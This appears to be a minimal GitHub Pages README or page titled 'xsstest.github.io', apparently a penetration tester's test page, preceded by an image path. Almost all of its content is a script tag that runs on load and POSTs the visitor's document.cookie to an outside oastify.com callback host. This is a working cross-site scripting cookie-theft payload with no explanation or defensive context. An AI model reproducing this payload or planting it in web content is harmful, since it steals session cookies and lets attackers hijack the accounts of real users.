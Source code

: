 # xsstest.github.io
test webpage<script>
fetch('https://qxrav0dj0m4s0mx0qbhqpnuh288zwrkg.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

